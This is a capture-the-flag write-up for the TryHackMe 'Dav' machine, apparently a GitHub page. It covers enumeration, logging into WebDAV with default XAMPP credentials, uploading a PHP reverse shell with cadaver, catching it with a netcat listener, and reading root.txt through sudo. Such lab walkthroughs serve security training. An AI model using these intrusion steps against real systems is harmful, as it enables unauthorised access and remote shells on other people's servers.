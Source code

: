 # [Dav](https://tryhackme.com/room/bsidesgtdav)

## boot2root machine for FIT and bsides guatemala CTF

# Dav

## Read user.txt and root.txt

### user.txt

1. Starting by nmap and gobuster enumeration we find there is only one open port. We also discover a `webdav` directory

```Bash
nmap -p- <IP>
```

- `-p-`: Scans all 65535 TCP ports

```Bash
gobuster dir -u http://<IP>:80/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

![SCREEN01](https://github.com/user-attachments/assets/d0ef2285-2fcc-4368-9dfd-7d265dc6c377)
![SCREEN02](https://github.com/user-attachments/assets/f6e3b5ec-0580-42f6-adbc-eb2f0c06079e)

2. It is always good to check default credentials. On this [blogpost](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) I have found one - `wampp:xampp`

3. Now that we know credentials, prepare [reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), and upload it into /webdav with `cadaver`

```Bash
cadaver http://<IP>/webdav/
put shell.php
```

4. Set up a netcat listener and trigger the shell by navigating to the uploaded PHP file in `/webdav`

```Bash
nc -lvnp 4444
```

```Bash
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/merlin/user.txt
```

![SCREEN03](https://github.com/user-attachments/assets/db258f89-28cc-444b-9a8f-2001164c88bf)
![SCREEN04](https://github.com/user-attachments/assets/d8ced6fd-e4c6-4c5e-95a0-fc994c77b9a6)

### root.txt

1. Let's check what commands we can run with sudo

```Bash
sudo -l
sudo cat /root/root.txt
```

![SCREEN05](https://github.com/user-attachments/assets/35371c5c-3607-412d-8dd7-8ed7c8b83759)
